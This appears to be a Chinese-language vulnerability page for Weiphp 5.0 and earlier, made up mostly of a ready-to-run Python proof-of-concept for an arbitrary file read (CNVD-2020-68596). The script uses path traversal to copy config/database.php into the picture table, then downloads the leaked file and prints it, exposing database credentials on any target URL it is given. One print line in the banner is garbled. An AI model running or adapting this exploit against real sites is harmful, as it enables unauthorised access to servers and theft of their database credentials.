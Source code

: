 <languages   />

漏洞影响
--------

    Weiphp <= 5.0

POC
---

    #!/usr/bin/python3
    #-*- coding:utf-8 -*-
    # author : PeiQi
    # from   : http://wiki.peiqi.tech


    import requests
    import random
    import re


    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号 : PeiQi文库                                                \033[0m')                            \033[0m')
        print('+  \033[34mVersion: Weiphp5.0                                                \033[0m')
        print('+  \033[36m使用格式: python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        upload_url = target_url + "/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
        }
        data = {
            "1":1
        }
        try:
            response = requests.post(url=upload_url, headers=headers, data=data, timeout=20)
            if response.status_code == 200:
                print("\033[32m[o] 成功将 database.php文件 写入Pictrue表中\033[0m")
            else:
                print("\033[31m[x] 漏洞利用失败 \033[0m")
        except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")

    def POC_2(target_url):
        vnln_url = target_url + "/public/index.php/home/file/user_pics"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
        }
        try:
            response = requests.get(url=vnln_url, headers=headers).text
            href = re.findall(r'<img src="(.*?)"', response)
            for i in href:
                print("\033[32m[o] 得到敏感文件url：{}\033[0m".format(i))
                data = requests.get(url=i, headers=headers)
                path = str(random.randint(1,999)) + '.php'
                with open(path, 'wb') as f:
                    f.write(data.content)
                    print("\033[32m[o] 成功下载文件为：{}\033[0m".format(path))
                    print("\033[32m[o] 文件内容为：\n\033[0m{}".format(data.text))
        except:
                print("\033[31m[x] 获取文件名失败 \033[0m")



    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url)
        image_url = POC_2(target_url)

参考
----

<http://wiki.peiqi.tech/PeiQi_Wiki/CMS%E6%BC%8F%E6%B4%9E/Weiphp/Weiphp5.0%20%E5%89%8D%E5%8F%B0%E6%96%87%E4%BB%B6%E4%BB%BB%E6%84%8F%E8%AF%BB%E5%8F%96%20CNVD-2020-68596.html>